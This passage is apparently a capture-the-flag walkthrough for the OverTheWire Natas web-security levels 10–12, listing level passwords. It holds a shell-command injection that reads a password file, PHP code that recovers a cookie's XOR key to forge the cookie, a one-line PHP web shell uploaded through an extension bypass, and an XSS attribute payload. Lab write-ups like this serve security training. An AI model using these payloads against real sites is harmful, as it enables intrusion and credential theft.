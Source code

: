 ```view-source:http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8```
We can instead use a shell escape code: ```\[\x3b\] cat /etc/natas_webpass/natas11```
Which is the same as ```; cat /etc/natas_webpass/natas11```


### LEVEL 11 - http://natas11.natas.labs.overthewire.org/
----------

U: natas11
P: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

Uses showpassword field cookie data. We can reverse engineer key for ```xor_encrypt()``` by using the data format shown given in the source code.
```
// #000000 = data=ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSRwh6QUcIaAw=
$data['showpassword'] = "yes";
$data['bgcolor'] = "#000000";
$hex_data = bin2hex(json_encode($data));

print $hex_data . "\n";
$cookie = "ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSRwh6QUcIaAw=";
print bin2hex(base64_decode($cookie)) . "\n";

for ($i=0; $i<strlen($cookie); $i++)
{
    $d[$i] = $hex_data[$i] ^ $cookie[$i];
    print bin2hex($d[$i]);
}
```

By inputting a precaptured cookie, we can partially decode the cookie ($cookie).
We can also create an identical structure and partially encode it.
The result is:
7b2273686f7770617373776f7264223a22796573222c226267636f6c6f72223a2223303030303030227d    // Partially encoded
0a554b221e00482b02044f2503131a70531957685d555a2d12185425035502685247087a414708680c      // Partially decoded
If we xor the two results together then we can get the key which is 'qw8J'.
Then its just a matter of running the existing with the correct key to generate a proper cookie and injecting it using tamper data.


### LEVEL 12 - http://natas12.natas.labs.overthewire.org/
----------

U: natas12
P: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

Create a text file with the following contents with the name natas12.jpeg:
```<?php $cmd=$_GET['cmd']; passthru($cmd);?>```

Capture the upload with tamper data and rename the temporary random filename extension to .php.
Then view the file for example like this: ```natas12.natas.labs.overthewire.org/upload/leo58sj437.php?cmd=cat /etc/natas_webpass/natas13```

Useful Sources:
- http://php.find-info.ru/php/004/phpsec-CHP-2-SECT-3.html
- https://www.exploit-db.com/papers/12871/

Vulnerable to XSS like this:
	``` " onclick="javascript:alert('Hello'); ```


### LEVEL 13 - http://natas13.natas.labs.overthewire.org/
----------
```